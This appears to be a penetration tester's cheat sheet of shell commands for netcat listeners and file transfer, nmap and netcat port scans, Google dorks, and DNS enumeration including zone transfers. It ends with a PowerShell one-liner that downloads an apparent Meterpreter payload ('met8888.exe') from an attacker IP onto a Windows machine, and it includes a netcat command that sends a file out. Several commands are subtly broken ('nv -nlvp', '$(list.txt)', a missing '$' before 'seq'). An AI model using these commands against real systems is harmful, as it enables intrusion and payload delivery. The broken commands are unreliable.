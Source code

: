 #----- Bash -----#

## For loop
for ip in $(cat file.txt); do echo $ip; done

## Create directory structure for each IP in file.txt
for ip in $(cat file.txt); do mkdir -p "$ip"/{penetration,notes,pillage,remote-enum,root-in-10-steps-or-less}; done

## Parse file data
cut -d'.' -f1 filename.txt |sort -u



# Wordlist locations
/usr/share 


#----- Linux Commands -----#
### Process Running
netstat -antp | grep sshd

### Start HTTP Service (/var/www)
service apache2 start

### Service Persistence on reboot 
update-rc.d ssh enable
update-rc.d apache2 enable


#----- NetCat -----#
### Connect using netcat
nc -nv IPaddress port

### Netcat listner
nv -nlvp 4444

## Netcat transfer

### Receiver
nc -nlvp 4444 > incoming.txt

### Sender
nc -nv IPaddress port </path/of/file.txt

### SIMPLE TCP & UDP PORT SCAN
nc -nvv -w 1 -z IPADDRESS START_PORT-END_PORT
nc -unvv -w 1 -z IPADDRESS START_PORT-END_PORT


#----- NCat (Supports encrypted tunnel) -----#
### Listener
ncat -nlvp IPAddress 4444

### Connect
ncat -v IPAddress 4444 --ssl

#----- Google Hacking CMD -----#
### Search specific site
Site:"microsoft.com"

### Exclude results from www.microsoft.com
Site:"microsoft.com" -site:"www.microsoft.com

### Search specific file type
site:"microsoft.com: filetype:ppt

intitle:"VNC viewer for java"

inurl:"/specific/url/"

#----- DNS ENUMBERATION -----#
### name server
host -t ns domain.com

### mail server
host -t mx domain.com

### Forward lookup (domain to IP)
for subdomain in $(list.txt);do nslookup $subdomain.DOMAIN.com|grep "Address: " | cut -d " " -f1,4;done

### Reverse DNS lookup (IP range to doamin)
for ip in (seq 1 255); do host 10.10.10.$ip |grep "DOMAIN" |cut -d" " -f1,5; done

### ZONE TRANSFERS (Get all domains in DNS)
host -l ns DOMAIN.COM

## BUILT TOOLS
DNSRECON, DNSENUM


#----- PORT SCANNING -----#
SYN SCANNING (half scan) 

### NMAP SCRIPTS
/usr/share/nmap/scripts

### PING SWEEP
nmap -sn 192.168.1.1/24

### NMAP GOOD ARGUMENTS
-oG = Grepable output

--reason: Display the reason a port is in a particular state

--top--ports (nmap -sT --top-ports 20 IPAddress -oG filename.txt)

-sV = Banner grabbing

-O = OS fingerprinting

-A: Enable OS detection, version detection, script scanning, and traceroute

--open = only display results of open ports

### Identify smb or netbios services
nbtscan 192.168.1.0/24

#----- Transferring Files from Linux to Windows -----#
### Python Webserver 
python -m SimpleHTTPServer

### Transfer to Windows with no broswer
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\name\Desktop\met8888.exe')"


